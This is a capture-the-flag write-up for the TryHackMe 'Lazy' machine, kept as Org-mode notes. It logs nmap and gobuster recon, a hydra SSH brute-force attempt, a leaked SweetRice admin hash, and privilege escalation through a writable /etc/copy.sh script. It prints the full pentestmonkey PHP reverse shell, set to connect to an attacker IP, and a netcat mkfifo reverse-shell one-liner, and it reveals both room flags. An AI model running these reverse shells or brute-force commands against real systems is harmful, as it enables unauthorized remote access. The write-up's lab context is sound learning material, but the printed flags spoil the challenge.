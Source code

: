 #+TITLE: lazy

* nmap

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lazy]
└──╼ # cat nmap/scan.nmap
# Nmap 7.91 scan initiated Thu Nov 12 02:43:20 2020 as: nmap -sC -sV -oA nmap/scan 10.10.62.227
Nmap scan report for 10.10.62.227
Host is up (0.12s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        # Nmap done at Thu Nov 12 02:43:48 2020 -- 1 IP address (1 host up) scanned in 28.85 seconds

#+end_src

* gobuster

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lazy]
└──╼ # gobuster dir -u 10.10.31.213/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.31.213/content
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/12 04:55:03 Starting gobuster
===============================================================
/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
Progress: 31190 / 87665 (35.58%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/12 05:00:23 Finished
===============================================================

#+end_src

* searchsploit

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lazy]
└──╼ # searchsploit sweet
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
 ------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Joomla! Component Sweetykeeper 1.5 - Local File Inclusion                                                                                                   | php/webapps/12182.txt
 SweetCMS 1.5.2 - 'index.php' SQL Injection                                                                                                                  | php/webapps/32490.txt
 SweetRice 0.5.3 - Remote File Inclusion                                                                                                                     | php/webapps/10246.txt
 SweetRice 0.6.7 - Multiple Vulnerabilities                                                                                                                  | php/webapps/15413.txt
 SweetRice 1.5.1 - Arbitrary File Download                                                                                                                   | php/webapps/40698.py
 SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                     | php/webapps/40716.py
 SweetRice 1.5.1 - Backup Disclosure                                                                                                                         | php/webapps/40718.txt
 SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                                | php/webapps/40692.html
 SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                           | php/webapps/40700.html
 SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                                                                                                       | php/webapps/14184.txt
 Zendesk App SweetHawk Survey 1.6 - Persistent Cross-Site Scripting                                                                                          | java/webapps/47781.txt
 ------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Shellcodes: No Results

#+end_src

* bruteforcing
: hydra -l root -P rockyou.txt -u 10.10.31.213 ssh
- didnt work
* found backup file
- username
  : manager
- password
  : (md5) 2f749ade7f9e195bf475f37a44cafcb

#+begin_src sql

<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
  1 => 'CREATE TABLE `%--%_attachment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `post_id` int(10) NOT NULL,
  `file_name` varchar(255) NOT NULL,
  `date` int(10) NOT NULL,
  `downloads` int(10) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  2 => 'DROP TABLE IF EXISTS `%--%_category`;',
  3 => 'CREATE TABLE `%--%_category` (
  `id` int(4) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `link` varchar(128) NOT NULL,
  `title` text NOT NULL,
  `description` varchar(255) NOT NULL,
  `keyword` varchar(255) NOT NULL,
  `sort_word` text NOT NULL,
  `parent_id` int(10) NOT NULL DEFAULT \'0\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `link` (`link`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  4 => 'DROP TABLE IF EXISTS `%--%_comment`;',
  5 => 'CREATE TABLE `%--%_comment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(60) NOT NULL DEFAULT \'\',
  `email` varchar(255) NOT NULL DEFAULT \'\',
  `website` varchar(255) NOT NULL,
  `info` text NOT NULL,
  `post_id` int(10) NOT NULL DEFAULT \'0\',
  `post_name` varchar(255) NOT NULL,
  `post_cat` varchar(128) NOT NULL,
  `post_slug` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `ip` varchar(39) NOT NULL DEFAULT \'\',
  `reply_date` int(10) NOT NULL DEFAULT \'0\',
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  6 => 'DROP TABLE IF EXISTS `%--%_item_data`;',
  7 => 'CREATE TABLE `%--%_item_data` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `data_type` varchar(20) NOT NULL,
  `name` varchar(255) NOT NULL,
  `value` text NOT NULL,
  PRIMARY KEY (`id`),
  KEY `item_id` (`item_id`),
  KEY `item_type` (`item_type`),
  KEY `name` (`name`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  8 => 'DROP TABLE IF EXISTS `%--%_item_plugin`;',
  9 => 'CREATE TABLE `%--%_item_plugin` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  10 => 'DROP TABLE IF EXISTS `%--%_links`;',
  11 => 'CREATE TABLE `%--%_links` (
  `lid` int(10) NOT NULL AUTO_INCREMENT,
  `request` text NOT NULL,
  `url` text NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`lid`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  12 => 'DROP TABLE IF EXISTS `%--%_options`;',
  13 => 'CREATE TABLE `%--%_options` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `content` mediumtext NOT NULL,
  `date` int(10) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `name` (`name`)
) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
  15 => 'INSERT INTO `%--%_options` VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
  16 => 'INSERT INTO `%--%_options` VALUES(\'3\',\'links\',\'\',\'1575023409\');',
  17 => 'DROP TABLE IF EXISTS `%--%_posts`;',
  18 => 'CREATE TABLE `%--%_posts` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `title` varchar(255) NOT NULL,
  `body` longtext NOT NULL,
  `keyword` varchar(255) NOT NULL DEFAULT \'\',
  `tags` text NOT NULL,
  `description` varchar(255) NOT NULL DEFAULT \'\',
  `sys_name` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `category` int(10) NOT NULL DEFAULT \'0\',
  `in_blog` tinyint(1) NOT NULL,
  `views` int(10) NOT NULL,
  `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `sys_name` (`sys_name`),
  KEY `date` (`date`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>

#+end_src

* uploaded php_reverse_shell

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.6.27.168';  // CHANGE THIS
$port = 6969;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
* users
- itguy
  - flag
    : THM{63e5bce9271952aad1113b6f1ac28a07}
* interesting files

#+begin_src perl

www-data@THM-Chal:/home/itguy$ cat backup.pl
    cat backup.pl
    #!/usr/bin/perl

        system("sh", "/etc/copy.sh");

#+end_src

#+begin_src sh

www-data@THM-Chal:~$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

#+end_src

* exploit

#+begin_src bash

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 1337 >/tmp/f' >/etc/copy.sh

#+end_src

- root.txt
  : THM{6637f41d0177b6f37cb20d775124699f}
